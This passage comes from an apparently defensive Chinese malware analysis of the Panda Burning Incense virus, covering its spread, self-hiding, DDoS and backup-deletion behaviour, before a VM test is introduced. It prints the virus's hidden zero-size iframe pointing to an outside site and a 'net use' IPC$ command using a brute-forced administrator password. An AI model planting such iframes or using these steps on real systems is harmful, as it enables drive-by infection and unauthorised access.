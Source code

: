 ```
<iframe src=http://www.ac86.cn/66/index.htm width="0" height="0"> </iframe>
```

*   通过弱口令传播
    
    这种传播方式非普遍，它会访问局域网共享文件夹将病毒文件拷贝到该目录下，并改名为 GameSetup.exe（模拟游戏名称）；通过弱口令猜测从而进入系统 C 盘。
    

(3) 自我隐藏

*   禁用安全软件
    
    熊猫烧香病毒会尝试关闭安全软件（杀毒软件、防火墙、安全工具）的窗口、进程，比如包含 360 的名称等；删除注册表中安全软件的启动项；禁用安全软件的服务等操作。
    
*   自动恢复 “显示所有文件和文件夹” 选项隐藏功能
    
    某些用户去看隐藏文件，会主动点击查看隐藏文件夹，但这个病毒会自动恢复隐藏。
    
*   删除系统的隐藏共享（net share）
    
    Windows 系统其实默认会开启隐藏共享 C$ ，比如早期的 IPC$ 管道等，通过 net share 命令可以删除隐藏共享。
    

> IPC$ (Internet Process Connection)  
> 在未经授权情况很难将木马拷贝到别人的电脑上。这里需要利用 IPC $ 漏洞，调用 445 端口号实现。445 端口中有个 IPC $ ，称之为空连接，没有固定文件夹的共享；而 C$ 、D$ 、E$ 代表分区共享，是有固定文件夹的。换句话说，445 端口打开就相当于我们可以在局域网中轻松访问各种共享文件夹，如果您的电脑是弱密码，很容易就被攻破，这里使用 IPC $ 暴力爆破。  
> IPC $ (Internet Process Connection) 是共享 “命名管道” 的资源，它是为了让进程间通信而开放的命名管道，通过提供可信任的用户名和口令，连接双方可以建立安全的通道并以此通道进行加密数据的交换，从而实现对远程计算机的访问。IPC $ 是 NT2000 的一项新功能，它有一个特点，即在同一时间内，两个 IP 之间只允许建立一个连接。NT2000 在提供了 IPC $ 功能的同时，在初次安装系统时还打开了默认共享，即所有的逻辑共享 (C$ 、D$ 、E$ …) 和系统目录 (C:\windows) 共享。所有的这些初衷都是为了方便管理员的管理，但好的初衷并不一定有好的收效，一些别有用心者会利用 IPC$ 访问共享资源，导出用户列表，并使用一些字典工具，进行密码探测。  

下图展示使用 NTscan 软件暴力爆破，该软件支持远程连接 IPC $ 和利用字典文件。运行软件，输入 IP 地址 “10.1.1.2”，选择 IPCsan 连接共享 “IPC $”，成功获取密码 “123.com”。接着与目标主机建立 IPC $ 空连接。

```
net use \\10.1.1.2\ipc$ 123.com /user:administrator
```

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRPpEMn60icrZhFibduDctYwAf5Olkib6O8w5j91CRmQ6Z7audvQlgSefJC7QPsmG67xqPnQOicgx1Gdtw/640?wx_fmt=png)

(4) 破坏功能

*   熊猫烧香病毒同时会开另一个线程连接某网站下载 DDOS 程序进行发动恶意攻击
    
    具有破坏功能，可开启附件攻击行为，熊猫烧香感染计算机台数非常多，它就能发动多台电脑发起 DDOS 攻击。
    
*   删除扩展名为 gho 的文件，延长存活时间
    
    该文件是系统备份工具 GHOST 的备份文件，从而使用户的系统备份文件丢失。当用户中了病毒，想去恢复时就存在困难了。
    

这就是一个典型的病毒案例，当然现在很多病毒功能都具有相似性，它们有经济利益趋势。当然对于不同的病毒来说，如果它的目的不一样，其行为会存在很大差异。当然熊猫烧香病毒的隐蔽性不是很好，每一个感染者都会知道自己已被感染。

四. 样本运行及查杀防御
============

首先，作者将熊猫烧香病毒拷贝到虚拟机系统中，注意一定不能真机去运行，更不能去破坏或伤害他人。该样本不会分享给大家，任何破坏行为都将受到严惩，我仅是从反病毒原理及防御方面进行技术分享。

*   实验环境：Windows XP
    
*   实验文件：熊猫烧香. exe
    